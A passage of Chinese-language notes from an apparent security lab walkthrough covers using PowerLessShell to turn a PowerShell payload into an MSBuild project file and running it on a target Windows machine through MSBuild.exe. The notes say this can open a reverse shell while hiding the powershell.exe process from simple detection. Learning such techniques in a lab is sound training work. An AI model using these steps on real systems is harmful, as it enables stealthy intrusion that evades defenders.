     4. **使用 PowerLessShell 转换 PowerShell 载荷**: 切换到 PowerLessShell 项目目录，运行工具将 `.ps1` 文件转换为与 MSBuild 兼容的 `.csproj` 文件。
        
        Bash
        
        ```
        user@machine$ python2 PowerLessShell.py -type powershell -source /path/to/liv0ff.ps1 -output liv0ff.csproj
        ```
        
    5. **传输 `.csproj` 文件**: 将生成的 `liv0ff.csproj` 文件传输到目标 Windows 机器。
    6. **在目标机器上执行 (使用 MSBuild.exe)**:
        
        DOS
        
        ```
        C:\Users\thm> C:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe C:\Users\thm\Desktop\liv0ff.csproj
        ```
        
        (MSBuild.exe 的路径可能因 .NET Framework 版本而异，`v4.0.30319` 是一个常见的路径)
- **结果**: 当 `MSBuild.exe` 执行 `.csproj` 文件时，其中嵌入的 PowerShell 逻辑（通过 C# 内联任务）会被执行，从而可能建立反向 Shell 或执行其他恶意操作。在这个过程中，任务管理器中通常不会出现 `powershell.exe` 进程，从而可能绕过基于该进程名的简单检测。